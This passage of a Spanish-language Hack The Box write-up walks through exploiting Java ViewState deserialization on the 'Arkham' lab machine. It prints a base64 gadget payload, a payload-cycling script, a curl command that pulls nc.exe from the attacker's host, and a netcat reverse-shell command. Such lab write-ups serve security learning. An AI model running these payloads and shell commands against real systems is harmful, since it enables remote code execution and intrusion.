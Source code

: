 <span>2. </span>Firmamos el payload.

<span>3. </span>Convertimos el payload a base64 para pasárselo al campo **ViewState**.

```bash
❭ cat clickpayload.txt | base64 | tr -d '\n'
rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4Kx...
```

<span>4. </span>Enviamos la petición :P

...

Listo, pues ejecutando el script y estando atentos tenemos respuesta cuando llega a estos payloads:

```py
❭ python3 validatePayload.py
...
Enviando CommonsCollections5
Enviando CommonsCollections6
Enviando CommonsCollections7
...
```

![179bash_tshark_pingDONE](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/arkham/179bash_tshark_pingDONE.png)

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/arkham/179google_gif_hypeoverload.gif" class="img-to-zoom" data-toggle="modal" data-target=".modal-zoomed-img" style="width: 90%;"/>

Bien, pues borrando la mayoría de payloads y quedándonos con los cercanos a estos tres podemos validar realmente que tenemos ejecución de comandos remotamenteeeeeeeeeeeeeeeeeeeeeee :D

Listoooooooo, generemos una Reverse Shell. Pongámonos en escucha con netcat, `nc -lvp 4433`.

Intentando con **PowerShell** (y sus variaciones), con **certutil** y finalmente con **cURL** subir el binario `nc.exe`, logramos con este último recibir las 3 peticiones en nuestro servidor web:

```py
...
sign_payload("curl http://10.10.14.14:8000/nc.exe -o C:\\Windows\\Temp\\nc.exe'")
```

```bash
❭ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.130 - - [26/Apr/2021 25:25:25] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.130 - - [26/Apr/2021 25:25:25] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.130 - - [26/Apr/2021 25:25:25] "GET /nc.exe HTTP/1.1" 200 -
```

Pero al generar la reverse shell:

```py
...
sign_payload("C:\\Windows\\Temp\\nc.exe 10.10.14.14 4433 -e cmd.exe")
```

No pasa nada :( Asi que probablemente la ruta en la que estemos subiendo el archivo no exista. A jugar y probar cositas...

* [Where Does Windows Store Temporary Files and How to Change TEMP Folder Location?](https://www.askvg.com/where-does-windows-store-temporary-files-and-how-to-change-temp-folder-location/?__cf_chl_jschl_tk__=812d45995163fa039197bffdf31c5b8cabe0f062-1619536286-0-AZd7w3DpGArvac7iIIctQoNmgNStxtK3jib0xeNtJ6b1JGaz2Jnhie4KmOTNrRN6e_IIZR0GluumpmtlDom5VkSnLETLoFHBkaXh-yy6c3DlXFxs_6eqzoSl6KPdu9y8LCUqSPl4A9x5uuTr-A_VLZwfxNuQyG6QAfFs7NtbszztbvodTIThfqrWg7BI0tFh0HK_oTufa-j81Qm9_zJCg_M7reh2IV-7ECaWBIDIUtFF09b8iGpPlIq_1eTgqqKZKTqnGWGBpJyarfDmulFcJeM2UXMb5vHEcN-tb4Wjudun2nogOjqL1zXs4mZ3C2WGLtspWVafZBjzI7rC-xtrntGdG6ZzLYWykBhC1mf6aXLTE-m6ThY0sDsNyeB9FgI_RocT8d5wKXye1_nqIpAutHweTe83R2e4-XoOkBQ6yidlmzJAvapgnFOAhQKJiZLO_L4eYzqZkEfJcWqNBW6K0svtyiic-TsB6l4Ac0MVI7uRGz2aVOJABggxJeZ1sHZnWg).
